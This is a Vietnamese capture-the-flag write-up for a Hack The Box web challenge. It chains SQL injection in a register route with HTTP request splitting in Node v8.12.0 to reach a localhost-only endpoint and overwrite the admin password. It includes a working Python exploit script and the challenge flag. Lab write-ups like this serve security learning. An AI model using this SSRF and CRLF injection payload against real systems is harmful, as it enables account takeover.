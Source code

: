 ## 1. Source code:

Đầu tiên thấy trong file `index.js` có route `/login` với method `post`:
```js
router.post('/login', (req, res) => {
	let { username, password } = req.body;

	if (username && password) {
		return db.isAdmin(username, password)
			.then(admin => {
				if (admin) return res.send(fs.readFileSync('/app/flag').toString());
				return res.send(response('You are not admin'));
			})
			.catch(() => res.send(response('Something went wrong')));
	}
	
	return re.send(response('Missing parameters'));
});
```
-> Login vào tài khoản `admin` thì sẽ nhận được flag từ thư mục `/app/flag`.

Vậy tài khoản `admin` được tạo như thế nào, xem trong file `database.js` có hàm `migrate`:
```js
async migrate() {
    return this.db.exec(`
        DROP TABLE IF EXISTS users;

        CREATE TABLE IF NOT EXISTS users (
            id         INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
            username   VARCHAR(255) NOT NULL UNIQUE,
            password   VARCHAR(255) NOT NULL
        );

        INSERT INTO users (username, password) VALUES ('admin', '${ crypto.randomBytes(32).toString('hex') }');
    `);
}
```
Như vậy username sẽ là `admin`, tuy nhiên `password` lại được tạo từ chuỗi random -> không brute-force được!

Ngoài ra ta thấy có hàm `isAdmin`:
```js
async isAdmin(user, pass) {
    return new Promise(async (resolve, reject) => {
        try {
            let smt = await this.db.prepare('SELECT username FROM users WHERE username = ? and password = ?');
            let row = await smt.get(user, pass);
            resolve(row !== undefined ? row.username == 'admin' : false);
        } catch(e) {
            reject(e);
        }
    });
}
```

Hàm trên sử dụng parameterized query nên không thể sử dụng SQLi được!

Nhưng với hàm `register` thì câu query nối chuỗi -> có thể sử dụng SQLi ở đây (._.")

```js
async register(user, pass) {
    // TODO: add parameterization and roll public
    return new Promise(async (resolve, reject) => {
        try {
            let query = `INSERT INTO users (username, password) VALUES ('${user}', '${pass}')`;
            resolve((await this.db.run(query)));
        } catch(e) {
            reject(e);
        }
    });
}
```

Quay lại hàm `migrate` trong file `database.js` để xem cấu trúc database:
```js
async migrate() {
    return this.db.exec(`
        DROP TABLE IF EXISTS users;

        CREATE TABLE IF NOT EXISTS users (
            id         INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
            username   VARCHAR(255) NOT NULL UNIQUE,
            password   VARCHAR(255) NOT NULL
        );

        INSERT INTO users (username, password) VALUES ('admin', '${ crypto.randomBytes(32).toString('hex') }');
    `);
}
```
Ta thấy giá trị `username` là UNIQUE, nên không thể tạo thêm một tài khoản `admin` khác được. Như vậy ta sẽ phải cập nhật `password` của tài khoản admin hiện tại. Trong SQL có lệnh `INSERT ON CONFLICT` có thể giải quyết case này.

Tuy nhiên khi truy cập vào route `/register` thì báo lỗi `401`:
```
This page isn’t working
If the problem continues, contact the site owner.
HTTP ERROR 401
```

Quay lại xem route `/register` trong file `index.js`:
```js
router.post('/register', (req, res) => {

	if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
		return res.status(401).end();
	}

	let { username, password } = req.body;

	if (username && password) {
		return db.register(username, password)
			.then(()  => res.send(response('Successfully registered')))
			.catch(() => res.send(response('Something went wrong')));
	}

	return res.send(response('Missing parameters'));
});
```

Như vậy là ứng dụng chỉ cho phép thực hiện register từ ip `127.0.0.1` (localhost), khả năng cao sẽ liên quan đến lỗi SSRF.

Ngoài ra ta xem thêm ở hàm `getWeather` ở file `helpers/WeatherHelper.js`:
```js
module.exports = {
    async getWeather(res, endpoint, city, country) {
    ...
```
Hàm này nhận các tham số endpoint, city, country từ file `static/js/main.js` với giá trị như sau:
```js
const getWeather = async () => {

    let endpoint = 'api.openweathermap.org';

    let res  = await fetch('//ip-api.com/json/')
        .catch(() => {
            weather.innerHTML = `
                <img src='/static/host-unreachable.jpg'>
                <br><br>
                <h4>👨‍🔧 Disable blocker addons</h2>
            `;
        });

    let data = await res.json();

    let { countryCode, city } = data;

    ...
```

Biến data ở đây không được validate, như vậy có thể thực hiện injection vào data bằng cách lợi dụng việc trang web get api lấy thông tin thời tiết.

Ở file `package.json` ta có thể thấy được các biến config cũng như vesion của NodeJS là `"nodeVersion": "v8.12.0"`. 

Sau khi research, version này tồn tại lỗ hổng `Http request splitting`, tức là chúng ta có thể  gửi data đi kèm với HTTP header đến ip `127.0.0.1` để thực hiện update password admin, thông qua kỹ thuật CRLF injection.

Request:
```
POST /api/weather HTTP/1.1
Host: 68.183.47.198:30634
Content-Length: 67
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://68.183.47.198:30634
Referer: http://68.183.47.198:30634/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"endpoint":"api.openweathermap.org","city":"Hanoi","country":"VN"}
```
Response:
```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 55
ETag: W/"37-EWIxxl6u5SIYz0pD8bDkc9WVWjc"
Date: Sat, 24 Dec 2022 03:25:26 GMT
Connection: close

{"desc":"broken clouds","icon":"icon-clouds","temp":21}
```

Bây giờ ta sẽ inject vào biến endpoint phần HTTP header để trỏ đến ip 127.0.0.1 (localhost) để thực hiện chức năng register với payload như sau:

Payload:
```python
import requests

url = "http://68.183.47.198:30634/api/weather"

username = "admin"
new_password = "123456"
password = f"{new_password}') ON CONFLICT(username) DO UPDATE SET password = '{new_password}';"

username_encoded = username.replace(" ", "\u0120").replace("'", "%27").replace('"',"%22") # %27='
password_encoded = password.replace(" ", "\u0120").replace("'", "%27").replace('"',"%22") # %22="

contentLength = len(username_encoded) + len(password_encoded) + 20

# \u010D = \r, \u010A = \n, \u0120 = space
test = "127.0.0.1/\u010D\u010A" # endpoint value, look like as api.openweathermap.org
test = test + "\u010D\u010A" # blank line
test = test + "POST\u0120/register\u0120HTTP/1.1\u010D\u010A" # POST /register HTTP/1.1
test = test + "Host:\u0120127.0.0.1\u010D\u010A" # Host: 127.0.0.1
test = test + "Content-Type:\u0120application/x-www-form-urlencoded\u010D\u010A" # Content-Type: application/x-www-form-urlencoded
test = test + "Content-Length:\u0120" + str(contentLength) + "\u010D\u010A" # Content-Length: ?
test = test + "\u010D\u010A" # blank line
test = test + f"username={username_encoded}&password={password_encoded}\u010D\u010A" # payload register
test = test + "\u010D\u010A" # blank line
test = test + "GET\u0120"

r = requests.post(url = url, json={'endpoint': test, 'city': 'Ha Noi','country': 'VN'})
```

Login as `username=admin&password=123456`:

Flag: `HTB{w3lc0m3_t0_th3_p1p3_dr34m}`
